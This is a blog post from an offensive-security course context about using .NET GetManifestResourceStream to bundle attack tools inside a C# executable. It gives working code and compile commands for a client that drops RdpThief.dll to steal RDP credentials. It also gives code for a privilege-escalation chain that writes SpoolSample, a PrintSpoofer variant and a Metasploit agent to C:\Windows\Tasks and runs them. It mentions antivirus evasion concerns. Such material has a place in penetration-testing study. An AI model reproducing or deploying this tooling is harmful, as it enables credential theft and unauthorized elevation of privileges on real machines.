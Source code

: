 ```yaml
---
title: "Taking Advantage of Assembly.GetManifestResourceStream for Quick Dirt Hacks"
date: 2021-12-01T04:32:52Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "C#", ".NET", "Resource Stream"]
---
```


We all get lazy from time to time, but things need to be done, in this post I am going to share with you a dirty hack that I used to avoid translating a solution written in a X programming language to another programming language. The scenario that we are going to cover here is that let's say we wrote a piece of code that does something but requires another tool to achieve the next step of the aimed goal. One option is to download that tool to disk either manually or using the API of the language your are writing the solution or take advantage of resource stream.

I initially started with the first option then I have figured out that it does not scale right, even if it does work, although we need to note that even the second option is not that ideal due to a lack of control, hence using "dirty hack" expression.

That being said let us dive into the meat of the subject, in order to properly illustrate the idea, we will go through two solutions I have implemented.

C# client for RDPThief:

@0x09AL made a nice tool to steal RDP credential leveraging binary instrumentation, you can find the link of the project in the references section. The tool is a DLL written C++, the usage is quite simple, you inject the DLL into mstsc.exe process. This example fit the description we talked about earlier.

Thanks to .NET Assembly.GetManifestResourceStream() method we can embed RDPThief.dll in our C# project, best of all this works well when loading with .NET assembly in memory. With no further due here is the piece of code that I have found in stackoverflow that allow us to extract embedded resources to disk:

```C#
// Source: https://stackoverflow.com/questions/2989400/store-files-in-c-sharp-exe-file/2989496

public static void WriteResourceToFile(string resourceName, string fileName)
{
	try
	{
		int bufferSize = 4096; // set 4KB buffer
		byte[] buffer = new byte[bufferSize];
		using (Stream input = System.Reflection.Assembly.GetExecutingAssembly().GetManifestResourceStream(resourceName))
		using (Stream output = new FileStream(fileName, FileMode.Create))
		{
		int byteCount = input.Read(buffer, 0, bufferSize);
		while (byteCount > 0)
		{
		output.Write(buffer, 0, byteCount);
		byteCount = input.Read(buffer, 0, bufferSize);
		}
		}
	}
	catch (Exception e) { Console.WriteLine(e.Message); }
}
```

It is important to note that this is not OPSEC safe, resource stream is not something new, if one of the embedded files is flagged by the anti-virus it is game over.  
You can find the complete source code of the RDPThief client here:

https://gist.github.com/tahadraidia/74540f5749d83b2fcbb317187cd18205

Compile command used (Mono C# compiler):

```sh
mcs -target:exe -platform:x64 -out:rdpthief.exe -resource:RdpThief.dll *.cs
```

LPE Through Print Bug:

This implementation leverage the SpoolSample application to privilege escalate by forcing it to run our Metasploit agent. This will use similar approach then before, however, this project requires the agent to be compiled and placed in a specific location of our choice. 

This time three files will be embedded in the project, the SpoolSample application, Metasploit agent and our implementation of printSpoofer in .NET, although this good be properly integrated in the code main code base of this project, once again time is precious here.

```C#
const string spoolsample = @"C:\Windows\Tasks\SpoolSample.exe";
const string spoof = @"C:\Windows\Tasks\spoof.exe";
const string local = @"C:\Windows\Tasks\local.exe";
string hostname = Dns.GetHostName();
// Check for file on Disk
var files = new List<String>();
files.Add(spoolsample);
files.Add(spoof);
files.Add(local);

Regex regx = new Regex("[a-zA-Z0-9]+.exe");
foreach (string file in files)
{
	if(!File.Exists(file))
	{
	MatchCollection matched= regx.Matches(file);
	if(matched.Count == 1)
	{
	WriteResourceToFile(matched[0].Value, file);
	}
}
}
```

Above code copies files into disk, and the code below is where magic happens.

```C#
...
// Give it time.
Thread.Sleep(3000);
// Bail if files does not exists on disk.
if (!File.Exists(spoof) || !File.Exists(spoolsample))
	System.Environment.Exit(0);

string spoolsampleparam = String.Format("{0} {0}/pipe/test", hostname);
Runner runner1 = new Runner(spoof, @"\\.\pipe\test\pipe\spoolss");
Runner runner2 = new Runner(spoolsample, spoolsampleparam);
Thread th1 = new Thread(new ThreadStart(runner1.Execute));
th1.Start();

if (th1.ThreadState == System.Threading.ThreadState.Running)
	new Thread(new ThreadStart(runner2.Execute)).Start();
...
```

The code is self-explanatory, also loads of resources only could be found on this subject, as for the first code, you can find the full version here:

https://gist.github.com/tahadraidia/74540f5749d83b2fcbb317187cd18205

Compile command used (Mono C# compiler):

```sh
mcs -target:exe -platform:x64 -out:lpeprintbug.exe -resource:spoof.exe -resource:SpoolSample.exe -resource:local.exe *.cs
```

References:
- https://docs.microsoft.com/en-us/dotnet/api/system.reflection.assembly.getmanifestresourcestream?view=net-6.0
- https://twitter.com/0x09AL
- https://github.com/0x09AL/RdpThief
- https://github.com/leechristensen/SpoolSample
